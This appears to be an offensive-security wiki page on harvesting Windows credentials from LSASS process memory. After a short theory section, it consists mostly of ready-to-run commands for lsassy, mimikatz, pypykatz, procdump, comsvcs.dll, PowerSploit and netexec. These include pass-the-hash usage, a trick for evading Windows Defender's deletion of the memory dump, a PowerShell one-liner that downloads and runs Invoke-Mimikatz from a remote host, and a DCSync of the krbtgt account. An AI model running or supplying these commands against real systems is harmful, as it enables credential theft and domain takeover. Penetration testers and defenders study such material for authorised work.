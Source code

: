 ## Theory
The Local Security Authority Subsystem Service (LSASS) is a Windows service responsible for enforcing the security policy on the system. It verifies users logging in, handles password changes and creates access tokens. Those operations lead to the storage of credential material in the process memory of LSASS. With administrative rights only, this material can be harvested (either locally or remotely).
## lsass dumping
=== "lsassy"
    [Lsassy](https://github.com/login-securite/lsassy) (Python) can be used to remotely extract credentials, from LSASS, on multiple hosts.

    - several dumping methods: comsvcs.dll, ProcDump, Dumpert
    - several authentication methods: like pass-the-hash (NTLM), or pass-the-ticket (Kerberos)
    - it can be used either as a standalone script, as a NetExec module or as a Python library
    - it can interact with a Neo4j database to set BloodHound targets as "owned"
    ```bash
    # With pass-the-hash (NTLM)
    lsassy -u $USER -H $NThash $TARGETS

    # With plaintext credentials
    lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS

    # With pass-the-ticket (Kerberos)
    lsassy -k $TARGETS

    # netexec Module examples
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
    netexec smb $TARGETS -k -M lsassy
    netexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
    ```
=== "mimikatz"
    [mimikatz](https://github.com/ParrotSec/mimikatz) can be used locally to extract credentials with `sekurlsa::logonpasswords` from lsass's process memory, or remotely with `sekurlsa::minidump` to analyze a memory dump (dumped with ProcDump)
    ```bash
    # (Locally) extract credentials from LSASS process memory
    sekurlsa::logonpasswords

    # (Remotely) analyze a memory dump
    sekurlsa::minidump lsass.dmp
    sekurlsa::logonpasswords
    ```
=== "pypykatz"
    [pypykatz](https://github.com/skelsec/pypykatz) (Python) can be used remotely (i.e. offline) to analyze a memory dump (dumped with ProcDump for example).
    ```bash
    pypykatz lsa minidump lsass.dmp
    ```
=== "procdump"
    [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) from sysinternal can be used to dump lsass's memory
    ```bash
    procdump -accepteula -ma lsass lsass.dmp
    ```
    !!! note
        Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.
    ```bash
    # Find lsass's pid
    tasklist /fi "imagename eq lsass.exe"

    # Dump lsass's process memory
    procdump -accepteula -ma $lsass_pid lsass.dmp
    ```
    Once the memory dump is finished, it can be analyzed with mimikatz (Windows) or pypykatz (Python, cross-platform).
=== "comsvcs.dll"
    The native comsvcs.dll DLL found in C:\Windows\system32 can be used with rundll32 to dump LSASS's process memory.
    ```bash
    # Find lsass's pid
    tasklist /fi "imagename eq lsass.exe"

    # Dump lsass's process memory
    rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
    ```
=== "powersploit"
    [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s exfiltration script Invoke-Mimikatz (PowerShell) can be used to extract credential material from LSASS's process memory.
    ```bash
    powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
    ```
=== "netexec"
    netexec also has some modules can be used for dumping lsass

    - Using `lsassy`
    ```bash
    nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
    ```
    - Using nanodump
    ```bash
    nxc smb 192.168.255.131 -u administrator -p pass -M nanodump
    ```
    - Using mimikatz (deprecated)
    ```bash
    nxc smb 192.168.255.131 -u administrator -p pass -M mimikatz
    ```
    ```bash
    nxc smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"
    ```
    !!! warning
        at least local admin privilege on the remote target, use option `--local-auth` if user is a local account